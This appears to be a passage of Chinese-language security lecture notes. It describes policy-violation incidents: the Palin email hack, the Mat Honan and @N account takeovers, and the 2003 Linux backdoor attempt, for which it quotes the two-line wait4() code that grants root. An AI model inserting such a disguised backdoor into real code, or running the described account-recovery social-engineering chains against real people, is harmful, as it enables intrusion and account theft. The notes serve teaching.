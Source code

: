 ## 安全问题1：违背政策

### Sarah Palin的email账号破解

2008年9月，美国共和党副总统候选人莎拉·佩林的雅虎私人电子邮箱遭黑客入侵。黑客可能是一名田纳西州民主党议员正在念大学的儿子戴维·克内尔。[[相关报道]](https://en.wikipedia.org/wiki/Sarah_Palin_email_hack)

攻击者利用雅虎密码遗忘提示功能和网络搜索引擎：佩林的邮箱密码提示问题包括她的生日，以及她和丈夫托德在何处相识。为副总统候选人的佩林已无太多隐私可言，可在谷歌上轻松找到答案。

FBI发现了攻击者在代理服务器上的踪迹。

**政策违背：真正用户需要知道用户名与口令 --> 知道密码提示问题答案**

### Mat Honan的Apple和Amazon账号破解
2012年一位网站主编Mat Honan的Google，Twitter, Apple账号都被破解。攻击者用这些账号发表种族言论，并删除了其iPhone等设备上数据。[[相关报道]](https://www.wired.com/2012/08/apple-amazon-mat-honan-hacking/all/)


- Twitter账号：采用Gmail邮箱
- Gmail密码重置：发送一个验证链接到备份邮箱。Mat的备份邮箱是Apple的me.com账号
- Apple密码重置：需要账单地址（个人住址可以查到），信用卡末4位（未知）
- Amazon密码重置：提供用户的任意一张信用卡账号（以及用户名，账单地址等）。在一个账号上添加信用卡，不需要密码（电话服务）。登录后，Amazon会显示所有信用卡末4位。

**政策违背：邮箱安全-->备份邮箱-->账单地址+信用卡末4位-->Amazon密码-->任意信用卡**

### Twitter上@N 账号劫持

2014年，Twitter上的 @N 账号（有人出价$50000）被劫持。账号所有者（受害者）Naoki Hiroshima在尝试夺回账号失败后，将用户名改为@N\_is\_stolen。Naoki通过与攻击者的邮件交流了解了其攻击过程。[[相关报道]](https://medium.com/@N/how-i-lost-my-50-000-twitter-username-24eb09e026dd#.d7lhyudko)

- @N 账号邮箱是受害者在GoDaddy上个人域名
- 个人域名被劫持，因而邮件服务器被更改，账号邮箱也就被劫持
- GoDaddy账号恢复需要提供信用卡末6位
- 攻击者打电话给PayPal，获得了信用卡末4位
- 攻击者打电话给GoDaddy，说信用卡丢了，但记得末4位；GoDaddy让攻击者来回忆前2位，可以一直猜，直到猜对（攻击者只猜了两次就蒙对了）

**政策违背：账号安全-->邮箱安全-->域名安全-->信用卡末6位-->信用卡末4位**

### 2003年Linux后门事件
2003年时，Linux采用代码维护系统BitKeeper，提交代码需经过审查。部分开发者为了方便另建立了一个CVS来维护源代码。攻击者在CVS所维护源码中插入如下代码，将无效调用`wait4()`的进程赋予root权限。

```c
if ((options == (__WCLONE|__WALL)) && (current->uid = 0))
			retval = -EINVAL;
```
不过，由于这个修改未经过审批流程，随后被发现。[[相关报道]](https://freedom-to-tinker.com/2013/10/09/the-linux-backdoor-attempt-of-2003/)

**政策违背：BitKeeper --> CVS**

---

## 安全问题2：违背威胁模型/假设
